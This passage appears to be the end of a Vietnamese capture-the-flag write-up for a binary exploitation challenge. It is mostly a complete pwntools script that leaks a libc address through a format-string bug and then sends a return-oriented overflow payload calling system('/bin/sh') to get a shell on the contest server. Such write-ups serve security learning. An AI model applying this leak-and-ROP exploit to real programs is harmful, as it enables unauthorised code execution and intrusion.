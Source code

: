 ![{2DD48DF5-62F8-4C93-9906-CAEE90CDA08C}](https://hackmd.io/_uploads/rJfEGmo9Je.png)
- Như vậy chạy trên server ta đã lấy được shell và tiến hành cat flag.txt thì server không cho (chắc do giải kết thúc rồi ạ=)) ).
=> Challenge hoàn thành.

### FULL SCRIPT
```
#!/usr/bin/env python3

from pwn import *

exe = ELF('vuln_patched', checksec=False)
libc = ELF('libc.so.6', checksec=False)
context.binary = exe

info = lambda msg: log.info(msg)
s = lambda data, proc=None: proc.send(data) if proc else p.send(data)
sa = lambda msg, data, proc=None: proc.sendafter(msg, data) if proc else p.sendafter(msg, data)
sl = lambda data, proc=None: proc.sendline(data) if proc else p.sendline(data)
sla = lambda msg, data, proc=None: proc.p.sendlineafter(msg, data) if proc else p.sendlineafter(msg, data)
sn = lambda num, proc=None: proc.send(str(num).encode()) if proc else p.send(str(num).encode())
sna = lambda msg, num, proc=None: proc.sendafter(msg, str(num).encode()) if proc else p.sendafter(msg, str(num).encode())
sln = lambda num, proc=None: proc.sendline(str(num).encode()) if proc else p.sendline(str(num).encode())
slna = lambda msg, num, proc=None: proc.sendlineafter(msg, str(num).encode()) if proc else p.sendlineafter(msg, str(num).encode())
def GDB():
    if not args.REMOTE:
        gdb.attach(p, gdbscript='''
        b*main+60
        b*main+91
        c
        ''')
        input()


if args.REMOTE:
    p = remote('kashictf.iitbhucybersec.in',56864)
else:
    p = process([exe.path])
GDB()

sla(b'What do you want? ',f'%37$p'.encode())

p.recvuntil(b'giving you ')
leak= int(p.recvline(),16)
libc.address = leak - 0x27305
info("Libc leak = "+hex(leak))
info("Libc base = "+hex(libc.address))

ret = libc.address + 0x00000000000f655f
prdi = libc.address + 0x00000000000277e5
prsi = libc.address + 0x0000000000028f99
payload = b'a'*40 + p64(ret)+ p64(prdi) + p64(next(libc.search(b'/bin/sh'))) + p64(libc.sym.system)
sla(b'Wanna Cry about that? ',payload)

p.interactive()
```

